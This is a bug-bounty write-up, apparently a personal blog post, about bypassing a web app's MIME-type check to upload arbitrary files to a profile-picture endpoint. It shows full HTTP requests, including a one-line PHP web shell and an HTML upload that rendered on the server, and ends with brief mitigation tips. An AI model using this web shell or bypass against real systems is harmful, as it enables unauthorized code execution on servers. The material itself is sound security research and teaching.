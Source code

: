 ```yaml
---
title : File upload via mime type 
description : Updating the mime type of the file leads to file upload vulnerability
slug : file-upload-vdp-01
date : 2024-05-28 00:00:00+0000
image : cover.png
categories :
    - Bug Hunting
    - File upload vulerability
tags :
    - writeup
weight : 1
---
```


## Overview
I was testing an application which is used for `X` purpose. It has a dashboard and you can upload images which get's stored in the same server. 
Lately I have been researching about file upload vulnerabilites while I tried the same bug on the Target's from Hackerone usually they store the file over the s3 bucket or they remove the extension of the file so I was bit confused about How to exploit the web appilication using file upload vulnerability, As a result I started learning over portswigger and completed the file upload module.


## Back to the target

As I logged into the web application there was a dashboard and it has a general setting option.
![Dashboard](dashboard.png)

I have recently updated the profile picture so this time I want to upload a malicious file such as php code.

The request looks something like 

```
PUT /api/profile/profile-picture HTTP/2
Host: ***
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOiJxMGUzdlNBSTVUIiwicm9sZSI6InVzZXIiLCJpYXQiOjE3MTY4OTE2ODN9.49xYj3tfO5-N_Pw0xlortlp9-WlY0L3xiOBw9RKzPrk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://***/dashboard/general
Content-Type: multipart/form-data; boundary=---------------------------25156492452924238624110306810
Content-Length: 274
Origin: https://***
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

-----------------------------25156492452924238624110306810
Content-Disposition: form-data; name="profile"; filename="fileUpload.php"
Content-Type: application/x-php

<?php echo system($_GET["command"]); ?>

-----------------------------25156492452924238624110306810--

```

Notice the **Content-Type: application/x-php** ?

Now see check the response down which I received after sending this request.

```
HTTP/2 500 Internal Server Error
Date: Tue, 28 May 2024 15:24:12 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 44
X-Powered-By: Express
Etag: W/"2c-BUK5kJEdgVBEC0ZxSqwoL+oPm/Y"
Cf-Cache-Status: DYNAMIC
Report-To: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v4?s=DaNl%2FKe7pd5G4X57ksNbkdCUiboT%2FmLC%2Fu4KI%2FNo1MuI1Cj9wVuKEX6hr1qv6robRYutAGpk%2BdqMO%2BPqjPHQj1L%2FfxrAG27x95GOly%2BUwURUHH%2BY%2F4Dxhlv8KuQ01D4V%2FQpXSg%3D%3D"}],"group":"cf-nel","max_age":604800}
Nel: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
Alt-Svc: h3=":443"; ma=86400
Vary: Accept-Encoding
Server: cloudflare
Cf-Ray: 88af400ed8a54dce-SIN

{"message":"MimeType or size doesn't match"}
```

## Updating MimeType is like putting a mask 

Notice the **message** ? It sayes **MimeType or size doesn't match**

As I got this message as the response I update the **Content-Type:**
Previously **Content-Type: application/x-php**
Currently  **Content-Type: image/png**
![MimeTypeChange](mime-type-update.png)

I sen't the request and go this beautiful message **{"message":"Profile picture updated"}

After getting this response I checked the dashboard again and it seems like something worng has happend.
![Dashboard](profile-php-loaded.png)

I checked the html code using inspect tool provided by firefox and decoded the url
![htmlCode](html-code-image.png)
![Decode](url-decoder.png)

I visited the decoded url and found out that the server was not running apache server and my php file didn't run instead it got downloaded.
![SadPHPfileGotDownloaded](get-file-php.png)

## Changes are important

Now as the server is not serving php server I decided to go with basic exploitation such as **.html**
I followed the same process as above but this time I uploaded .html file.


The request looks like 

```
PUT /api/profile/profile-picture HTTP/2
Host: ***
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOiJxMGUzdlNBSTVUIiwicm9sZSI6InVzZXIiLCJpYXQiOjE3MTY4OTE2ODN9.49xYj3tfO5-N_Pw0xlortlp9-WlY0L3xiOBw9RKzPrk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://***/dashboard/general
Content-Type: multipart/form-data; boundary=---------------------------25156492452924238624110306810
Content-Length: 266
Origin: https://***
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

-----------------------------25156492452924238624110306810
Content-Disposition: form-data; name="profile"; filename="fileUpload.html"
Content-Type: image/png

<h1>0xtheM7 was here</h1>

-----------------------------25156492452924238624110306810--

```

## Exploit
I sent the requested checked the html code with inspect tool decoded the url and boom .html file was loading without any issue.

![HTMLdeocde](html-url-decode.png)
![HTMLRUN](file-uploaded.png)

And we are able to run our code over the server which opens up the door to run different malicious scripts and eventually get the REC or diiferent bug such as XSS.

### How to make file upload secure
1. Check the extension of the file
2. Check the diamension of the file 
3. Don't file to the server withou checking it
